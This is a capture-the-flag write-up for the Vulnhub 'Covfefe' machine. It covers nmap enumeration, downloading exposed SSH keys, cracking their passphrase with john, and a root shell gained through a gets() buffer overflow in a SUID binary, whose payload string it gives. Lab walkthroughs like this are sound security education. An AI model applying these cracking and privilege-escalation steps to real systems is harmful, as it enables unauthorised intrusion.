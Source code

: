 Vulnhub - Covfefe

# Vulnhub - Covfefe

## Enumeration

- Started enumerating by running NMAP by using default parameters

  ```
  └─$ nmap -sC -sV -oA quick 192.168.119.128
  Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-05 17:40 -03
  Nmap scan report for 192.168.112.10
  Host is up (0.16s latency).
  Not shown: 997 closed ports
  PORT      STATE SERVICE VERSION
  22/tcp    open  ssh     OpenSSH 7.4p1 Debian 10 (protocol 2.0)
  | ssh-hostkey: 
  |   2048 d0:6a:10:e0:fb:63:22:be:09:96:0b:71:6a:60:ad:1a (RSA)
  |   256 ac:2c:11:1e:e2:d6:26:ea:58:c4:3e:2d:3e:1e:dd:96 (ECDSA)
  |_  256 13:b3:db:c5:af:62:c2:b1:60:7d:2f:48:ef:c3:13:fc (ED25519)
  80/tcp    open  http    nginx 1.10.3
  |_http-server-header: nginx/1.10.3
  |_http-title: Welcome to nginx!
  31337/tcp open  http    Werkzeug httpd 0.11.15 (Python 3.5.3)
  | http-robots.txt: 3 disallowed entries 
  |_/.bashrc /.profile /taxes
  |_http-server-header: Werkzeug/0.11.15 Python/3.5.3
  |_http-title: 404 Not Found
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 43.12 seconds
  ```

### 80/TCP

- Checking this Nginx page, noticed that seems to be the default website. Nothing to do here :)

### 31337/TCP

- When accessing this app on 31337 port, also after noticing that this webserver is very uncommon ( Werkzeug httpd) got a "Not Found" page but when I have started the enumeration I have found the following data on robots.txt

  ```
  User-agent: *
  Disallow: /.bashrc
  Disallow: /.profile
  Disallow: /taxes
  ```

- Browsing to the **/taxes** page, got a message saying that my flag is somewhere else...

- The entries **.bashrc** and **.profile** shows that this page might be published from an user's home profile. It's very likely that this user has id_rsa keys. Browsing to this directory they were found and downloaded to our box.

- Checking the **id_rsa.pub** file, noticed that the user for this credential can be **simon@covfefe** and after comparing both this file and **authorized_keys**, noticed that they're identical. The only problem with this RSA key is that is encrypted, identified after looking for the attribute **ENCRYPTED** on its contents, requiring us to look for a passphrase in order to be able to use it.

  ```
  └─$ cat id_rsa.pub             
  ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDzG6cWl499ZGW0PV+tRaOLguT8+lso8zbSLCzgiBYkX/xnoZx0fneSfi93gdh4ynVjs2sgZ2HaRWA05EGR7e3IetSP53NTxk5QrLHEGZQFLId3QMMi74ebGBpPkKg/QzwRxCrKgqL1b2+EYz68Y9InRAZoq8wYTLdoUVa2wOiJv0PfrlQ4e9nh29J7yPgXmVAsy5ZvmpBp5FL76y1lUblGUuftCfddh2IahevizLlVipuSQGFqRZOdA5xnxbsNO4QbFUhjIlA5RrAs814LuA9t2CiAzHXxjsVW8/R/eD8K22TO7XEQscQjaSl/R4Cr1kNtUwCljpmpjt/Q4DJmExOR simon@covfefe
  └─$ diff -s id_rsa.pub authorized_keys                                                               
  Files id_rsa.pub and authorized_keys are identical
  └─$ cat id_rsa | grep ENCRYPTED
  Proc-Type: 4,ENCRYPTED
  ```

- Before start digging for this passphrase, let's first try to crack it using John. To do it we need first use **ssh2john** to create a hash file from the encrypted content and then brute forced it using a dictionary, in this case **rockyou.txt** which was a very good idea once it has returned the passphrase we're needing to logon to the box, which is **starwars**.

  ```
  └─$ /usr/share/john/ssh2john.py id_rsa > id_rsa.hash 
  └─$ /usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
  Using default input encoding: UTF-8
  Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
  Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
  Cost 2 (iteration count) is 1 for all loaded hashes
  Will run 4 OpenMP threads
  Note: This format may emit false positives, so it will keep trying even after
  finding a possible candidate.
  Press 'q' or Ctrl-C to abort, almost any other key for status
  starwars         (/dcruz/vulnhub/covfefe/loot/id_rsa)
  Warning: Only 2 candidates left, minimum 4 needed for performance.
  1g 0:00:00:10 DONE (2020-09-05 17:58) 0.09980g/s 1431Kp/s 1431Kc/s 1431KC/sa6_123..*7¡Vamos!
  Session completed
  
  └─$ /usr/sbin/john --show id_rsa.hash 
  /dcruz/vulnhub/covfefe/loot/id_rsa:starwars
  
  1 password hash cracked, 0 left
  ```

- After connecting to the box using the obtained credentials was able to get the **local.txt** flag on user's home directory:

  ```
  simon@covfefe:~$ cat local.txt
  d695ee2066190bdab0cf22758d1eeb39
  ```



## Privilege Escalation

- Checking other interesting things on user's home directory there was also a **.bash_history** file, which is not forwarded to /dev/null and has an interesting entry for an executable called **read_message**. This binary has the SUID bit set and could probably allow us to escalate privilege.

  ```
    simon@covfefe:~$ cat .bash_history 
    read_message
    exit
    date | md5sum | awk '{print $q}'
    date | md5sum > local.txt
    cat local.txt 
    nano local.txt 
    ls -la
    cat .bash_history 
    exit
    simon@covfefe:~$ whereis read_message
    read_message: /usr/local/bin/read_message
    simon@covfefe:~$ ls -la /usr/local/bin/read_message 
    -rwsr-xr-x 1 root staff 7608 Jul  2  2017 /usr/local/bin/read_message
  ```
  
- Running read_message by the first time, it asks for our name and prints it as stdout saying that we're not allowed to see the message, but when I have tried with Simon, that is the user we have access to, the proper message is displayed
  
  ```
  simon@covfefe:~$ read_message
  What is your name?
  test
  Sorry test, you're not Simon! The Internet Police have been informed of this violation.
  simon@covfefe:~$ read_message 
  What is your name?
  Simon
  Hello Simon! Here is your message:
  
  Hi Simon, I hope you like our private messaging system.
  
  I'm really happy with how it worked out!
  
  If you're interested in how it works, I've left a copy of the source code in my home directory.
  
  - Charlie Root
  ```

- Now let's take a look at the source code of this binary to see if is there something interesting. As this is Charlie Root, we've been able to see **read_message.c** file under /root path. Below are it's contents:

  ```
    simon@covfefe:/root$ cat read_message.c 
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
  
    // You're getting close! Here's another flag:
    // flag2{use_the_source_luke}
  
    int main(int argc, char *argv[]) {
      char program[] = "/usr/local/sbin/message";
        char buf[20];
        char authorized[] = "Simon";
  
        printf("What is your name?\n");
        gets(buf);
        
        // Only compare first five chars to save precious cycles:
        if (!strncmp(authorized, buf, 5)) {
            printf("Hello %s! Here is your message:\n\n", buf);
            // This is safe as the user can't mess with the binary location:
            execve(program, NULL, NULL);
        } else {
            printf("Sorry %s, you're not %s! The Internet Police have been informed of this violation.\n", buf, authorized);
            exit(EXIT_FAILURE);
        }
  
    }
    simon@covfefe:/root$ 
  ```

- In the source code we're able to see that the app is hardcoded to only allow Simon to use it but also that the input for the username has only 20 chars long. This might lead to a buffer overflow, once we might  change the previous declared variable, in this case **program** which is below in the stack pile. Also the remote code execution will this happen because the program calls the program using execve() function, otherwise we wouldn't be able to use this binary for privesc.

- After some attempts, I've found that the string **SimonAAAAAAAAAAAAAAA/bin/sh** is enough to cause the Buffer Overflow and also return an elevated prompt. 

  - It has to start with **Simon**, otherwise we won't get to code execution phase
  - It has to end with **/bin/sh** in order to get an interactive prompt. If you try the same using **/bin/bash** you won't succeed once bash contains protections against privilege escalation.
  - In between I have started adding the character **A** until I was able to get arbitrary code execution

  ```
   simon@covfefe:~$ read_message
    What is your name?
    SimonAAAAAAAAAAAAAAA/bin/sh
    Hello SimonAAAAAAAAAAAAAAA/bin/sh! Here is your message:
  
    # cd /root
    # cat flag.txt
    Your flag is in another file...
    # dir
  flag.txt  proof.txt  read_message.c
    # cat proof.txt
    386f50fde90ccb48cddaa052cb7d47ed
  ```



## Appendix

- When this box was first released, the flags were different and also there is other flags in the initial one, as you might have noticed when we were reading the source code for read_message.

- Below all the flags for the initial version on VulnHub:

  - After finding the  robots.txt, there's an entry on **/taxes** page. This would leak the first flag below instead of the displayed message:

    ```
    Good job! Here is a flag: flag1{make_america_great_again}
    ```

  - The second flag, present on read_message.c source code:

    ```
    flag2{use_the_source_luke}
    ```

  - Original root flag:

    ```
    flag3{das_bof_meister}
    ```